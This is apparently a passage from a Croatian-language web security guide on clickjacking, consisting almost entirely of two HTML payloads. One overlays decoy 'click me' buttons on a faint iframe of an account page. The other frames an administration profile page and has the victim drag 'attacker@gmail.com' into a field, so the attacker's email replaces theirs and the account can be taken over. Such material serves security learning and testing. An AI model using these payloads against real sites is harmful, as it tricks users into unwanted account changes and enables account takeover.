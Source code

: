```markup
```

### Višekorak Payload

```markup
<style>
iframe {
position:relative;
width: 500px;
height: 500px;
opacity: 0.1;
z-index: 2;
}
.firstClick, .secondClick {
position:absolute;
top:330px;
left:60px;
z-index: 1;
}
.secondClick {
left:210px;
}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```

### Povlačenje i ispuštanje + Klik payload

```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
